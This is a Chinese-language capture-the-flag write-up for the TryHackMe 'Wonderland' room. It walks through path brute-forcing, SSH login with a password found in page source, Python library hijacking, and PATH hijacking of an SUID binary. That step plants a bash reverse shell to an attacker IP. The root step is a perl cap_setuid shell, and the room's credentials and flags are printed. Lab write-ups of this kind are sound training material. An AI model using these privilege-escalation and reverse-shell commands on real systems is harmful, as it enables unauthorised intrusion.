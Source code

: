 # Wonderland Writeup
> URL: https://tryhackme.com/dashboard

IP : 

## Recon
- 一直 nmap 太老梗太無聊了
	- 來玩玩新東西 `RustScan`
	- `wget https://github.com/RustScan/RustScan/releases/download/2.0.1/rustscan_2.0.1_amd64.deb`
	- `sudo dpkg -i rustscan_2.0.1_amd64.deb`
- `rustscan -a 10.10.166.15`
	- ![](https://i.imgur.com/Gnkagw5.png)
	- 開 22 跟 80
## 網址
- http://10.10.166.15/
	- 透過 dirsearch 可以找到
		- `/r`
	- http://10.10.166.15/r/ 再掃，可以掃到
		- `/a`
		- ![](https://i.imgur.com/ynk4AVX.png)
	- 感覺每次都是一個字，所以可以爆搜看看，自己寫一個 python 腳本
		- ```python
			import requests
			from multiprocessing import Pool

			url = 'http://10.10.166.15/r/a/'
			alphabat = 'abcdefghijklmnopqrstuvwxyz'

			def req(i):
				res = requests.get(f'{url}/{i}')
				if res.status_code == 200:
					print(i)

			p = Pool(10)
			p.map(req,alphabat)  
			```
		- 如果爆到正確的就會 print 出來，然後手動把搜的結果加去 url 最後面再爆
			- 所以最後爆出的結果是`r/a/b/b/i/t`

- http://10.10.166.15/r/a/b/b/i/t/
	- ![](https://i.imgur.com/dZNYcX2.png)
	- 觀察原始碼會發現一串奇怪的字串
		- `alice:HowDothTheLittleCrocodileImproveHisShiningTail`
		- 斷詞後發現是 `How Doth The Little Crocodile Improve His Shining Tail`
		- 來自於
			- How Doth the Little Crocodile
			- 路易斯·卡羅創作的詩
			```
			How doth the little crocodile
			  Improve his shining tail
			And pour the waters of the Nile
			  On every golden scale!

			How cheerfully he seems to grin
			  How neatly spreads his claws,
			And welcomes little fishes in
			  With gently smiling jaws!
			```
		- 好...完全不重要
## SSH
- 通靈一下，我們時常會把帳號跟密碼用 `:` 隔開
	- 說不定，上面那串就是 alice 的密碼！嘗試ssh登入看看
		- `ssh alice@10.10.166.15`
			- 密碼 `HowDothTheLittleCrocodileImproveHisShiningTail`
		- ![](https://i.imgur.com/gjqdOYu.png)
- 到處找了一輪，都找不到 `user.txt` QAQ
	- 算了，我們直接想辦法提權，等有 root 後再用上帝視角來搜!
	- 但反而我們使用者`alice`的家目錄有一個沒有權限讀的 `root.txt`
	- ![](https://i.imgur.com/oOd2vhi.png)
- 輸入 `sudo -l` 觀察
	- ![](https://i.imgur.com/BjLRyHY.png)
	- 發現我們可以用 `rabbit` 使用者身分執行 `/usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
	- 所以執行方法應該如下 `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
`
## 挾持 Python
- 觀察 `walrus_and_the_carpenter.py`
	- 發現內部的程式碼會 `import random`
	- 這個時候我們可以透過一些小技巧挾持他的 `random`
- Python 的 import 有一個特性
	- 首先他會讀取同一個資料夾裡面，是否有相同檔名的檔案來給他 Import
	- 再來才會去找 `sys.path` 裡面的東西
		- 可以輸入 `python3 -c "import sys; print(sys.path)"` 觀察
- 所以由於該檔案在我們家目錄，我們可以在自己家目錄下創一個 `random.py`
	- 此時如果執行該 python 檔案，即可使用我們自己的 random
	- 我們建造的 `random.py` 
		```python3
		import pty
		pty.spawn("/bin/bash")
		```
	- 以 `rabbit` 使用者執行看看
		- `sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py`
		- 就會發現我們噴成 rabbit 的 shell 了!
			- ![](https://i.imgur.com/Oo40rbI.png)

## 逆向工程
- 進入 rabbit 後，發現他的家目錄有一個 `teaParty` 的檔案
	- 透過 `file teaParty` 檢查會發現他是一個 ELF 執行檔
		- ![](https://i.imgur.com/9qL5oDi.png)
	- 透過 `ls -al teaParty` 會發現他有 SUID
		- ![](https://i.imgur.com/SYqw5mF.png)
	- 那不管了，我們先執行看看ㄅ!
		- `./teaParty`
			- ![](https://i.imgur.com/Zc4fGaO.png)
			- 噴了一些字，還有當前時間就卡住了，感覺可以讓我輸入一些字，那就先隨便輸入個 `meow` 看看ㄅ
			- 哇...... 噴出了 `Segmentation fault (core dumped)`
				- ![](https://i.imgur.com/Eni6IZo.png)
				- 母...母湯阿，不會在這邊要開始打 `pwn` 了吧 QWQ
			- 好吧，那我們先把檔案抓出來分析看看
				- `cp teaParty /tmp`
				- `chmod 777 /tmp/teaParty`
				- 本機
					- `scp alice@10.10.166.15:/tmp/teaParty .`
- 透過 Cutter 打開
	- ![](https://i.imgur.com/5QJYvOD.png)
	- 觀察 `main` 函數會發現，先會 set `uid` 跟 `gid` 為 0x3eb = 1003
	- 先觀察一下 uid、gid 1003 是誰
		- `cat /etc/passwd | grep 1003`
		- ![](https://i.imgur.com/ZXCPLk5.png)
		- 會發現是一個叫做 `hatter` 的使用者
- 關於逆向這個程式，很明顯的重點就是以下三行
	- `setuid(0x3eb);`
	- `setgid(0x3eb);`
	- `system("/bin/echo -n \'Probably by \' && date --date=\'next hour\' -R");`
	- 然後他的 `Segmentation fault` 是假的
		- 7777777777777777777

- 我們可以發現他的 system 裡面主要 call 了兩個東西
	- 第一個是 `/bin/echo`
	- 第二個是 `date`
	- 在這邊我先查詢了 `/bin/echo` 以及 `/bin/date` 發現都不可以修改
- 想到我們可以做什麼事情了嗎?
	- 程式裡面的 `system` 呼叫的是 `date` 而不是 `/bin/date`
	- 而在 Linux 中，如果不寫完整的路徑，就會去`$PATH`裡面抓
	- 所以我們可以修改 `$PATH` ，增加路徑，並放上我們自己ㄉ `date` 檔案
		- 放一個 reverse shell
			- `/bin/bash -c '/bin/bash -i >& /dev/tcp/10.13.21.55/7877 0>&1'`
		- 再給他權限
			- `chmod +x date`
		- 攻擊機準備好 reverse shell
			- `nc -vlk 7877` 
		- 再輸入以下指令
			- `PATH=/home/rabbit:$PATH ./teaParty`
- 就可以收到 reverse shell 了!!
	- ![](https://i.imgur.com/ZZ9wpv0.png)
	- 我們目前到了 `hatter` 使用者
	- 在根目錄可以發現一組 `WhyIsARavenLikeAWritingDesk?` 密碼，可以以此用 ssh 登入 hatter
	- `ssh hatter@10.10.166.15`
## 提權
- 先透過 scp 把 linpeas 給傳到機器中
	- ![](https://i.imgur.com/2Qlr3yo.png)
- 輸入 `bash linpeas.sh`
	- 發現一些有趣的東西
- 在 `Capabilities` 的地方可以看到
	- Files with capabilities
		- ![](https://i.imgur.com/hPtNFxo.png)
		- 發現 perl 有 `cap_setuid`
		- 去 [GTFObins](https://gtfobins.github.io/)  上找 
- 就找到了 GTFObins 上面的 [perl Capabilities](https://gtfobins.github.io/gtfobins/perl/#capabilities)
	- `perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'`
		- ![](https://i.imgur.com/bveY1BS.png)
		- 就發現了我們拿到 root !!
- 也就順利的拿到了 root 的 flag
	- ![](https://i.imgur.com/aSVKD2j.png)
	- `thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}`
- 到 /root 看看有什麼東西
	- ![](https://i.imgur.com/HFeDVn0.png)
	- 找到了 `user.txt`
		- `thm{"Curiouser and curiouser!"}`
		- ~~把user.txt放在root目錄是不是搞錯了什麼~~